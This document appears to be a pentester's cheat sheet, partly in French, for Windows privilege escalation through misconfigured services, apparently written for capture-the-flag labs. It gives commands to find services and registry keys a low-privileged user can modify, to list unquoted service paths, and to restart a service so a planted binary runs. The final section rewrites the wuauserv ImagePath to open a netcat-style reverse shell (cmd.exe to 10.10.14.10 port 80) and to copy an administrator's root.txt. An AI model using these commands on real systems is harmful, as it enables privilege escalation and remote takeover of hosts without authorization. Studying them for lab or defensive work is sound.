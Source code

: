 # services

## check services with write access - to change binpath

## commande de base

accesschk.exe -accepteula -uvwc *

## registry pour les service modifiable par l'user Hector:

./accesschk64.exe "Hector" -kvuqsw hklm:\SYSTEM\CurrentControlSet\services

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *| findstr /i "Hector Users Path"


## Unquoated services

wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """


## Restart service

Okay, so now that we have a malicious binary  in place we need to restart the service so that it gets executed. We  can do this by using wmic or net the following way:

wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name].

## Modifiable from registry

set-itemproperty hklm:\SYSTEM\CurrentControlSet\services\wuauserv -name ImagePath -value 'c:\tmp\titi.exe 10.10.14.10 80 -e cmd.exe'
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d 'copy c:\users\administrator\desktop\root.txt c:\tmp\r.txt' /f

